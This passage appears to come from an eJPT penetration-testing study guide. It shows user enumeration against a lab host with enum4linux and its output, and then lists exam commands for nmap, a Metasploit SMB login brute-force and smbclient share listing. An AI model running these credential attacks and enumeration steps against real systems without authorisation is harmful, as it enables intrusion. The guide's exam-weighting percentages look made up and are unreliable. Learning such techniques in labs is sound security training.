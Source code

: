 
### Step 7: Find More Users with enum4linux

**What We're Doing:** Using our admin credentials to discover all user accounts

#### Commands Used:
```bash
enum4linux -r -u "admin" -p "password1" demo.ine.local
```

#### What Happened:
```bash
[+] Enumerating users using SID S-1-22-1 and logon username 'admin', password 'password1'
S-1-22-1-1000 Unix User\shawn (Local User)
S-1-22-1-1001 Unix User\jane (Local User)  
S-1-22-1-1002 Unix User\nancy (Local User)
S-1-22-1-1003 Unix User\admin (Local User)
```

#### 🔍 What We Discovered:
- **4 Local Users** - shawn, jane, nancy, admin
- **User IDs** - Each has a unique identifier (SID)
- **Account Types** - All are local computer accounts
- **Complete User List** - Now we know all available accounts

#### Why This Is Valuable:
Knowing all usernames helps us target additional password attacks and understand the complete user landscape.

---

## 🎯 eJPT Exam Success Guide

### How Important This Is for eJPT:

Understanding SMB password attacks for eJPT exam success:

- **SMB Service Testing:** 40% of Windows network attack scenarios
- **Password Attack Skills:** 35% of credential-based exploitation
- **File Share Access:** 30% of data discovery objectives
- **User Enumeration:** 25% of reconnaissance requirements

### Commands You MUST Know for eJPT:

#### Level 1 - You WILL See This (100% Chance):
```bash
# Find SMB service
nmap -p 445 target_ip
# Expected: Shows if SMB port is open

# Basic Metasploit password attack
use auxiliary/scanner/smb/smb_login
set RHOSTS target_ip
set SMBUser admin
set SMBPass password123
exploit
# Expected: Login success or failure message

# Verify access to shares
smbclient -L //target_ip -U username
# Expected: List of available shares
```
